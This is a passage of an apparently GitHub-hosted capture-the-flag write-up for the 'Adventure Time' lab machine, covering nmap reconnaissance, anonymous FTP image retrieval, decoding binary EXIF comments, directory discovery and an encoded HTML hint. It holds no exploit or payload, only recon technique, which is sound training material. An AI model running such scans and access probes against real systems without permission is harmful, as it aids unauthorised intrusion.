






# Adventure Time

A CTF based challenge to get your blood pumping...

Time to go on an adventure. Do you have what it takes to help Finn and Jake find BMO's reset code?
Help solve puzzles and try harder to the max....

This is not a real world challenge, but fun and game only (and maybe learn a thing or two along the way).

# Recon

~~~
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r--    1 ftp      ftp       1401357 Sep 21  2019 1.jpg
| -r--r--r--    1 ftp      ftp        233977 Sep 21  2019 2.jpg
| -r--r--r--    1 ftp      ftp        524615 Sep 21  2019 3.jpg
| -r--r--r--    1 ftp      ftp        771076 Sep 21  2019 4.jpg
| -r--r--r--    1 ftp      ftp       1644395 Sep 21  2019 5.jpg
|_-r--r--r--    1 ftp      ftp         40355 Sep 21  2019 6.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.50.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:d2:86:99:c2:62:2d:95:d0:75:9c:4e:83:b6:1b:ca (RSA)
|   256 db:87:9e:06:43:c7:6e:00:7b:c3:bc:a1:97:dd:5e:83 (ECDSA)
|_  256 6b:40:84:e6:9c:bc:1c:a8:de:b2:a1:8b:a3:6a:ef:f0 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
443/tcp   open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: You found Finn
| ssl-cert: Subject: commonName=adventure-time.com/organizationName=Candy Corporate Inc./stateOrProvinceName=Candy Kingdom/countryName=CK
| Not valid before: 2019-09-20T08:29:36
|_Not valid after:  2020-09-19T08:29:36
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, RPCCheck, SSLSessionReq: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not
|   DNSVersionBindReqTCP: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not 
|     version
|     bind
|   GenericLines, NULL: 
|     Hello Princess Bubblegum. What is the magic word?
|   GetRequest: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not GET / HTTP/1.0
|   HTTPOptions: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS / HTTP/1.0
|   Help: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not HELP
|   RTSPRequest: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS / RTSP/1.0
|   SIPOptions: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|_    Accept: application/sdp
~~~

## Port 21 (FTP)

6 jpg pictures are available from the anonymous FTP access.

~~~
$ ftp 10.10.28.59
Connected to 10.10.28.59 (10.10.28.59).
220 (vsFTPd 3.0.3)
Name (10.10.28.59:unknown): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,10,28,59,178,1).
150 Here comes the directory listing.
-r--r--r--    1 ftp      ftp       1401357 Sep 21  2019 1.jpg
-r--r--r--    1 ftp      ftp        233977 Sep 21  2019 2.jpg
-r--r--r--    1 ftp      ftp        524615 Sep 21  2019 3.jpg
-r--r--r--    1 ftp      ftp        771076 Sep 21  2019 4.jpg
-r--r--r--    1 ftp      ftp       1644395 Sep 21  2019 5.jpg
-r--r--r--    1 ftp      ftp         40355 Sep 21  2019 6.jpg
~~~

There are interesting exif information ("XP Comment" is a binary string) in 1.jpg:

~~~
$ /data/src/exiftool-11.93/exiftool 1.jpg 
ExifTool Version Number         : 11.93
File Name                       : 1.jpg
Directory                       : .
File Size                       : 1369 kB
File Modification Date/Time     : 2020:06:07 09:39:15+02:00
File Access Date/Time           : 2020:06:07 09:39:35+02:00
File Inode Change Date/Time     : 2020:06:07 09:39:34+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.02
Resolution Unit                 : inches
X Resolution                    : 96
Y Resolution                    : 96
DCT Encode Version              : 100
APP14 Flags 0                   : (none)
APP14 Flags 1                   : (none)
Color Transform                 : YCbCr
Exif Byte Order                 : Big-endian (Motorola, MM)
XP Comment                      : 01111001 01101111 01110101 00100000
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Quality                         : 100%
Image Width                     : 2500
Image Height                    : 1406
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 2500x1406
Megapixels                      : 3.5
~~~

Same for 2.jpg:

~~~
$ /data/src/exiftool-11.93/exiftool 2.jpg 
ExifTool Version Number         : 11.93
File Name                       : 2.jpg
Directory                       : .
File Size                       : 228 kB
File Modification Date/Time     : 2020:06:07 09:39:17+02:00
File Access Date/Time           : 2020:06:07 09:39:35+02:00
File Inode Change Date/Time     : 2020:06:07 09:39:34+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 96
Y Resolution                    : 96
Exif Byte Order                 : Big-endian (Motorola, MM)
XP Comment                      : 01110010 01100101 01100001 01101100 01101100 01111001 00100000
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
Image Width                     : 843
Image Height                    : 1280
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 843x1280
Megapixels                      : 1.1
~~~

3.jpg:

~~~
$ /data/src/exiftool-11.93/exiftool 3.jpg 
ExifTool Version Number         : 11.93
File Name                       : 3.jpg
Directory                       : .
File Size                       : 512 kB
File Modification Date/Time     : 2020:06:07 09:39:19+02:00
File Access Date/Time           : 2020:06:07 09:39:35+02:00
File Inode Change Date/Time     : 2020:06:07 09:39:34+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.02
DCT Encode Version              : 100
APP14 Flags 0                   : (none)
APP14 Flags 1                   : (none)
Color Transform                 : YCbCr
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
X Resolution                    : 100
Y Resolution                    : 100
Resolution Unit                 : inches
Software                        : Adobe Photoshop CS4 Macintosh
Modify Date                     : 2010:07:15 21:29:35
Color Space                     : Uncalibrated
Exif Image Width                : 1191
Exif Image Height               : 870
XP Comment                      : 01101100 01101001 01101011 01100101 00100000
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Compression                     : JPEG (old-style)
Thumbnail Offset                : 4594
Thumbnail Length                : 7076
Current IPTC Digest             : e8f15cf32fc118a1a27b67adc564d5ba
Application Record Version      : 0
IPTC Digest                     : e8f15cf32fc118a1a27b67adc564d5ba
Displayed Units X               : inches
Displayed Units Y               : inches
Print Style                     : Centered
Print Position                  : 0 0
Print Scale                     : 1
Global Angle                    : 30
Global Altitude                 : 30
URL List                        : 
Slices Group Name               : at2
Num Slices                      : 1
Pixel Aspect Ratio              : 1
Photoshop Thumbnail             : (Binary data 7967 bytes, use -b option to extract)
Has Real Merged Data            : Yes
Writer Name                     : Adobe Photoshop
Reader Name                     : Adobe Photoshop CS4
Photoshop Quality               : 12
Photoshop Format                : Progressive
Progressive Scans               : 3 Scans
XMP Toolkit                     : Adobe XMP Core 4.2.2-c063 53.352624, 2008/07/30-18:05:41
Creator Tool                    : Adobe Photoshop CS4 Macintosh
Create Date                     : 2010:07:15 21:24:25-04:00
Metadata Date                   : 2010:07:15 21:29:35-04:00
Format                          : image/jpeg
Color Mode                      : RGB
Instance ID                     : xmp.iid:F77F117407206811A961D23A3405A1E6
Document ID                     : xmp.did:F77F117407206811822DFDD1EDD2FC40
Original Document ID            : xmp.did:F77F117407206811822DFDD1EDD2FC40
Native Digest                   : 256,257,258,259,262,274,277,284,530,531,282,283,296,301,318,319,529,532,306,270,271,272,305,315,33432;35F84AA6E1B3F03B701AEA5E5DAEE907
History Action                  : created, saved, saved
History Instance ID             : xmp.iid:F77F117407206811822DFDD1EDD2FC40, xmp.iid:F87F117407206811822DFDD1EDD2FC40, xmp.iid:F77F117407206811A961D23A3405A1E6
History When                    : 2010:07:15 21:26:58-04:00, 2010:07:15 21:27:21-04:00, 2010:07:15 21:29:35-04:00
History Software Agent          : Adobe Photoshop CS4 Macintosh, Adobe Photoshop CS4 Macintosh, Adobe Photoshop CS4 Macintosh
History Changed                 : /, /
Image Width                     : 1191
Image Height                    : 870
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1191x870
Megapixels                      : 1.0
Thumbnail Image                 : (Binary data 7076 bytes, use -b option to extract)
~~~

4.jpg

~~~
$ /data/src/exiftool-11.93/exiftool 4.jpg 
ExifTool Version Number         : 11.93
File Name                       : 4.jpg
Directory                       : .
File Size                       : 753 kB
File Modification Date/Time     : 2020:06:07 09:39:21+02:00
File Access Date/Time           : 2020:06:07 09:39:36+02:00
File Inode Change Date/Time     : 2020:06:07 09:39:34+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 96
Y Resolution                    : 96
Exif Byte Order                 : Big-endian (Motorola, MM)
XP Comment                      : 01110100 01101111 00100000
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1920x1080
Megapixels                      : 2.1
~~~

5.jpg

~~~
$ /data/src/exiftool-11.93/exiftool 5.jpg 
ExifTool Version Number         : 11.93
File Name                       : 5.jpg
Directory                       : .
File Size                       : 1606 kB
File Modification Date/Time     : 2020:06:07 09:39:23+02:00
File Access Date/Time           : 2020:06:07 09:39:36+02:00
File Inode Change Date/Time     : 2020:06:07 09:39:34+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.02
DCT Encode Version              : 100
APP14 Flags 0                   : (none)
APP14 Flags 1                   : (none)
Color Transform                 : YCbCr
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
X Resolution                    : 300
Y Resolution                    : 300
Resolution Unit                 : inches
Software                        : Adobe Photoshop CS4 Macintosh
Modify Date                     : 2010:08:26 23:08:10
Color Space                     : sRGB
Exif Image Width                : 1920
Exif Image Height               : 1080
XP Comment                      : 01110000 01110101 01111010 01111010 01101100 01100101 00100000
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Compression                     : JPEG (old-style)
Thumbnail Offset                : 4630
Thumbnail Length                : 0
Current IPTC Digest             : 460cf28926b856dab09c01a1b0a79077
Application Record Version      : 2
IPTC Digest                     : 460cf28926b856dab09c01a1b0a79077
Displayed Units X               : inches
Displayed Units Y               : inches
Print Style                     : Centered
Print Position                  : 0 0
Print Scale                     : 1
Global Angle                    : 120
Global Altitude                 : 30
URL List                        : 
Slices Group Name               : 3859260439_1c086a2b14_o
Num Slices                      : 1
Pixel Aspect Ratio              : 1
Has Real Merged Data            : Yes
Writer Name                     : Adobe Photoshop
Reader Name                     : Adobe Photoshop CS4
Photoshop Quality               : 12
Photoshop Format                : Standard
Progressive Scans               : 3 Scans
XMP Toolkit                     : Adobe XMP Core 4.2.2-c063 53.352624, 2008/07/30-18:05:41
Native Digest                   : 36864,40960,40961,37121,37122,40962,40963,37510,40964,36867,36868,33434,33437,34850,34852,34855,34856,37377,37378,37379,37380,37381,37382,37383,37384,37385,37386,37396,41483,41484,41486,41487,41488,41492,41493,41495,41728,41729,41730,41985,41986,41987,41988,41989,41990,41991,41992,41993,41994,41995,41996,42016,0,2,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,20,22,23,24,25,26,27,28,30;A474D8C1D2571576B1A560CF9171228B
Type                            : Document
Color Mode                      : RGB
ICC Profile Name                : sRGB IEC61966-2.1
Creator Tool                    : Adobe Photoshop CS2 Macintosh
Create Date                     : 2009:08:26 12:00:54-07:00
Metadata Date                   : 2010:08:26 23:08:10-04:00
Instance ID                     : xmp.iid:18ED24761420681197A5C73AC3BD5C65
Document ID                     : uuid:9FF822AD92E711DE9CF8E7262D7F51C6
Original Document ID            : uuid:9FF822AD92E711DE9CF8E7262D7F51C6
N Pages                         : 1
Has Visible Transparency        : False
Has Visible Overprint           : False
Format                          : image/jpeg
Derived From Instance ID        : uuid:5169EE943392DE11A227B375010EDC56
Derived From Document ID        : uuid:5069EE943392DE11A227B375010EDC56
History Action                  : saved, saved, saved
History Instance ID             : xmp.iid:078011740720681197A5C73AC3BD5C65, xmp.iid:17ED24761420681197A5C73AC3BD5C65, xmp.iid:18ED24761420681197A5C73AC3BD5C65
History When                    : 2010:08:26 22:01:41-04:00, 2010:08:26 23:08:10-04:00, 2010:08:26 23:08:10-04:00
History Software Agent          : Adobe Photoshop CS4 Macintosh, Adobe Photoshop CS4 Macintosh, Adobe Photoshop CS4 Macintosh
History Changed                 : /, /, /
Max Page Size W                 : 17.000000
Max Page Size H                 : 11.000000
Max Page Size Unit              : Inches
Plate Names                     : Cyan, Magenta, Yellow, Black
Swatch Group Name               : Default Swatch Group
Swatch Group Type               : 0
Swatch Colorant Swatch Name     : White, Black, Gray, Light Gray, Bright Blue, Light Blue, Pale Blue, Violet, Light Violet, Pale Violet, Yellow, Light Yellow, Pale Yellow, Brown, Light Brown, Pale Brown, Blue, Faded Blue, Faded Pale Blue, Red, Light Red, Mauve, Forest Green, Green, Pale Green, Bright Green, Light Bright Green, Pale Light Green, Purple, Periwinkle, Lavender, Orange, Pale Orange, Light Pale Orange, 100% Black
Swatch Colorant Mode            : RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, RGB, CMYK
Swatch Colorant Type            : PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, PROCESS, SPOT
Swatch Colorant Red             : 255, 0, 153, 204, 0, 153, 204, 255, 255, 255, 255, 255, 255, 153, 204, 255, 0, 102, 204, 255, 255, 255, 0, 51, 153, 0, 102, 151, 153, 153, 204, 255, 255, 255
Swatch Colorant Green           : 255, 0, 153, 204, 255, 255, 255, 0, 102, 204, 255, 255, 255, 51, 102, 151, 0, 102, 204, 0, 102, 153, 153, 204, 255, 255, 255, 255, 0, 102, 153, 153, 204, 255
Swatch Colorant Blue            : 255, 0, 153, 204, 255, 255, 255, 255, 255, 255, 0, 102, 153, 0, 53, 102, 255, 255, 255, 0, 102, 153, 0, 51, 102, 0, 102, 153, 204, 204, 204, 0, 102, 153
Swatch Colorant Tint            : 100.000000
Swatch Colorant Cyan            : 0.000000
Swatch Colorant Magenta         : 0.000000
Swatch Colorant Yellow          : 0.000000
Swatch Colorant Black           : 100.000000
Profile CMM Type                : Linotronic
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 1998:02:09 06:49:00
Profile File Signature          : acsp
Primary Platform                : Microsoft Corporation
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : Hewlett-Packard
Device Model                    : sRGB
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Hewlett-Packard
Profile ID                      : 0
Profile Copyright               : Copyright (c) 1998 Hewlett-Packard Company
Profile Description             : sRGB IEC61966-2.1
Media White Point               : 0.95045 1 1.08905
Media Black Point               : 0 0 0
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Device Mfg Desc                 : IEC http://www.iec.ch
Device Model Desc               : IEC 61966-2.1 Default RGB colour space - sRGB
Viewing Cond Desc               : Reference Viewing Condition in IEC61966-2.1
Viewing Cond Illuminant         : 19.6445 20.3718 16.8089
Viewing Cond Surround           : 3.92889 4.07439 3.36179
Viewing Cond Illuminant Type    : D50
Luminance                       : 76.03647 80 87.12462
Measurement Observer            : CIE 1931
Measurement Backing             : 0 0 0
Measurement Geometry            : Unknown
Measurement Flare               : 0.999%
Measurement Illuminant          : D65
Technology                      : Cathode Ray Tube Display
Red Tone Reproduction Curve     : (Binary data 2060 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 2060 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 2060 bytes, use -b option to extract)
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1920x1080
Megapixels                      : 2.1
~~~

6.jpg

~~~
$ /data/src/exiftool-11.93/exiftool 6.jpg 
ExifTool Version Number         : 11.93
File Name                       : 6.jpg
Directory                       : .
File Size                       : 39 kB
File Modification Date/Time     : 2020:06:07 09:39:24+02:00
File Access Date/Time           : 2020:06:07 09:39:36+02:00
File Inode Change Date/Time     : 2020:06:07 09:39:34+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 0
Y Resolution                    : 0
Exif Byte Order                 : Big-endian (Motorola, MM)
XP Comment                      : 01100100 01101111 01101110 00100111 01110100 00100000 01111001 01100001
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Image Width                     : 474
Image Height                    : 266
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 474x266
Megapixels                      : 0.126
~~~


~~~
$ for i in {1..6}; do /data/src/exiftool-11.93/exiftool $i.jpg | grep "XP Comment" | cut -d ":" -f2;done
 01111001 01101111 01110101 00100000
 01110010 01100101 01100001 01101100 01101100 01111001 00100000
 01101100 01101001 01101011 01100101 00100000
 01110100 01101111 00100000
 01110000 01110101 01111010 01111010 01101100 01100101 00100000
 01100100 01101111 01101110 00100111 01110100 00100000 01111001 01100001
~~~

The concatenated binary string decodes to: `you really like to puzzle don't ya`.

## Port 80 (http)

Connecting to port 80 shows a 404 page.

```
$ curl -s http://10.10.28.59
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL / was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.10.28.59 Port 80</address>
</body></html>
```

dirsearch found no hidden directories on this server. Maybe more luck with https.

## Port 443 (https)

The home page reveals an image of Finn who says "I've lost Jake, can you help me find him.":

```html
<!DOCTYPE html>
<html>
<head>
<title>You found Finn</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>
</body>
</html> 
```


dirsearch found a subdirectory: `/candybar/`

```
<!DOCTYPE html>
<html>
<head>
<title>Where is Jake?</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>

    <!-- KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4=== -->

</body>
</html> 
```


The message can be decoded with base32 > caesar (offset 11):

~~~
Always check the SSL certificate for clues.
~~~

